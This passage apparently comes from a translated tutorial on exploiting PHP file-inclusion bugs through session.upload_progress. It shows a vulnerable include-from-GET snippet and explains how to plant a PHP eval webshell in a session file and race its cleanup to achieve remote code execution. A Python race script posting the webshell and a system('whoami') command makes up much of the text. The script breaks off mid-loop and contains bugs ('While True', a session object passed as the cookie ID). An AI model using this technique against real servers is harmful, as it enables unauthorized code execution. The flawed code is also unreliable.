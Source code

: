a:1 means there is 1 element in the $_SESSION array, and the content in the curly braces is the serialized value of the incoming GET parameter.
## Use session.upload_progress to include the file
Conditions of utilization
- 1. There is a file containing vulnerability
- 2. Know the session file storage path, you can try the default path
- 3. Have permission to read and write session files

```php
Sample code

<?php
$b = $_GET['file'];
include "$b";
?>
```

It can be found that there is a file containing a vulnerability, but a malicious file that can be included cannot be found; in fact, we can use session.upload_progress to write malicious statements into the session file, thereby including the session file; the prerequisite is that we need to know the storage location of the session file.


analyze
>- **The code does not have session_start(), how to create session file: **
>In fact, if session.auto_start=On, PHP will automatically initialize the session when receiving the request, and no longer needs to execute session_start(); but by default, this option is turned off; but session also has a default option, session.use_strict_mode default value is 0; at this time, the user can define the Session ID by himself. For example, if we set PHPSESSID=TGAO in the cookie, PHP will create a file on the server: /tmp/sess_TGAO"; even if the user does not initialize the Session at this time, PHP will automatically initialize the Session; and generate a key value, which consists of ini.get("session.upload_progress.prefix") + session.upload_progress.name value constructed by us, and is finally written to the Sess_file.
- **Default configuration session.upload_progress.cleanup = on causes the session file to be cleared immediately after the file is uploaded. How to perform rce: **
At this time, we can use competition to include the content before the session file is cleared

```python
Utilize scripts

import io
import requests
import threading
sessid = 'TGAO'
data = {"cmd":"system('whoami');"}
def write(session):
    While True:
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post( 'http://192.168.43.236/H3rmesk1t/test.php', data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'}, files={'file': ('tgao.txt',f)}, cookies={'PHPSESSID': session} )
def read(session):
    While True:
        resp = session.post('http://192.168.43.236/H3rmesk1t/test.php?file=session/sess_'+sessid,data=data)
        if 'tgao.txt' in resp.text:
            print(resp.text)
            event.clear()
            break
        else:
            print("[++++++++++++++]retry")
if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in range(1,30):
```